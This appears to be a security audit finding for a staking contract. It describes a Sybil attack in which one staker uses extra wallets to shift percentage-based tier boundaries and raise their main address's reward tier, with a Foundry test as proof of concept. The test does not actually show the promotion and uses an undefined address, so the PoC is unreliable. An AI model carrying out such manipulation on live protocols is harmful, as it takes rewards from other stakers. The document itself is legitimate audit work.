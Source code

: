 Furry Lemonade Scallop

High

# User Can Stake Using Multiple Addresses to Artificially Promote Their Main Address to a Higher Tier.

**Description:** 

In the current tiering system, a `user’s` tier is determined solely by their position among all users, based on percentages (e.g., top 20% are Tier 1), and not by the amount staked. When a user joins or leaves, the total user count changes, which recalculates tier boundaries, potentially promoting or demoting users.

An `attacker` can exploit this logic by staking through Sybil addresses (i.e., multiple wallets they control) to inflate the total user count, thereby pushing their main address into a higher tier. Since the number of users in Tier 1 and Tier 2 increases as the total number of users increases (due to rounding of percentages), the `attacker’s` real address may benefit from a tier promotion without doing anything meaningful, while the Sybil `addresses` simply occupy space in `Tier 3`.

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L674

**Impact:** 

The `attacker’s` main address is promoted to a higher `tier`, gaining a higher `APY` or better rewards.

**Proof of Concept:**

1. We can assume they are 10 stakers in the protocol who have already staked and have been allocated their tiers with their respected APY's.
   * 20 % of 10 - 2 Users. (`Tier1`).
   * 30 % of 10 - 3 Users. (`Tier2`).
   * 50 % of 10 - 5 Users. (`Tier3`).

2. A user who understands the whole Tier allocation system and who is currently at `Tier3` can stake with multiple addresses thus Promoting his main address to a high Tier with high APY.

Would consider adding this to the `LayerEdgeStakingTest.t.sol`.

```solidity

 function test_ManipulationOfTierAPY() public {

        // Set up initial token balances for tracking
        uint256[] memory initialBalances = new uint256[](10);
        address[10] memory stakers = [alice, bob, charlie, david, eve, frank, grace, harry, ian, judy];

        for (uint256 i = 0; i < stakers.length; i++) {
            initialBalances[i] = token.balanceOf(stakers[i]);
        }

        // Set up 10 stakers
        setupMultipleStakers(10);

        // The last one to stake is Judy and she's currently in Tier 3 meaning that her APY == 30%

        (uint256 tier1Count, uint256 tier2Count, uint256 tier3Count) = staking.getTierCounts();
        assertEq(tier1Count, 2); // 20% of 10 = 2
        assertEq(tier2Count, 3); // 30% of 10 = 3
        assertEq(tier3Count, 5); // Remaining 5 (Judy is probably here).


        assertEq(uint256(staking.getCurrentTier(judy)), uint256(LayerEdgeStaking.Tier.Tier3));

        // At this point , Judy is familiar with the tier recalculation sytem so she uses other addresses to bump up her tier == APY.

           vm.startPrank(judysOtherAddress);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
            vm.stopPrank();

        // After this stake, they are now 11 users in the system.
        (uint256 tier1Count1, uint256 tier2Count2, uint256 tier3Count3) = staking.getTierCounts();
        assertEq(tier1Count1, 2); // 20% of 11 = 2
        assertEq(tier2Count2, 3); // 30% of 11 = 3
        assertEq(tier3Count3, 6); // Rest of users -> 6 users (Judy's position has been shifted to 5th position in Tier 3 )

        // She can keep on doing this with multiple addresses till she promotes her main address to Tier 1

    }

```

Running this test will help get the concept.
   

**Recommended Mitigation:** 

Batch or epoch tier updates to reduce the ability to time or game the tier system.